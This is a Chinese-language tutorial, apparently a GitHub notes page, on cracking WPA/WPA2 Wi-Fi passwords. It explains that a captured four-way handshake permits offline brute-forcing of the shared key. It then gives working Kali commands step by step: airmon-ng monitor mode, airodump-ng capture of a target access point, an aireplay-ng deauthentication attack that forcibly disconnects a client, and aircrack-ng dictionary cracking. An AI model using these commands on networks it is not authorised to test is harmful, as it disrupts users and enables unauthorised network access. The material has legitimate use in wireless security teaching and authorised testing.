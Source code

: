 #### 原理

当认证过程中的握手包被嗅探到时，则可以对共享秘钥进行离线的爆破。

> 在四步握手中的前两步中，可以获得除共享秘钥和ESSID以外，用来生成PTK的所有参数，以及正确的PTK的MIC校验。目标AP的ESSID也是可知的，所以即可通过本地计算的方式来爆破共享秘钥。

![image](http://etutorials.org/shared/images/tutorials/tutorial_57/08fig17.gif)

参考：

[WPA-PSK无线网络破解原理及过程](http://www.freebuf.com/articles/wireless/58342.html)

深入解析无线WEP和WPA密码及破解原理.doc (附件)

#### 方法

为了方便操作开启两个终端窗口

##### 窗口一

- 将网卡置入监听模式

```bash
root@kali:~ airmon-ng start wlan0
```

- 扫描附近网络，找到采取WPA/WPA2方式保护的热点，得到AP的MAC地址以及工作信道

```bash
root@kali:~# airodump-ng wlan0mon
```

- 针对目标AP进行嗅探并保存文件

```bash
# airodump-ng --bssid [AP的MAC地址] wlan0mon -w [保存的文件名] -c [信道序号] 

root@kali:~# airodump-ng --bssid 00:11:22:33:44:55 wlan0mon -w test -c 8 
```

窗口一将一直显示最新的嗅探状态，获得与目标AP相连接的STA信息，并且实时保存所有嗅探到的数据包，此时我们的工作区可以切换到窗口二。

##### 窗口二

- 使用aireplay-ng的0号攻击模式，将任意一个与AP连接着的STA打掉线（AP的MAC地址通过窗口一运行着的airodump-ng获得）

```bash
# aireplay-ng -0 [攻击次数] -a [AP的MAC地址] -c [STA的MAC地址] wlan0mon

root@kali:~# aireplay-ng -0 10 -a 00:11:22:33:44:55 -c 55:44:33:22:11:00 wlan0mon
```

- 当STA重新与AP进行连接时，运行在窗口一种的airodump-ng将会捕捉到认证的握手包并在右上角提示handshake，此时利用aircrack-ng指明字典进行爆破即可

```bash
root@kali:~# aircrack-ng test-01.cap -w passwd.txt
```

其实最终捕获的数据包中只要有三条数据包就可以进行破解：四步握手的前两步，一个AP的beacon帧（用来获得AP的ESSID）

![image](https://xuanxuanblingbling.github.io/assets/pic/wpa3.png )
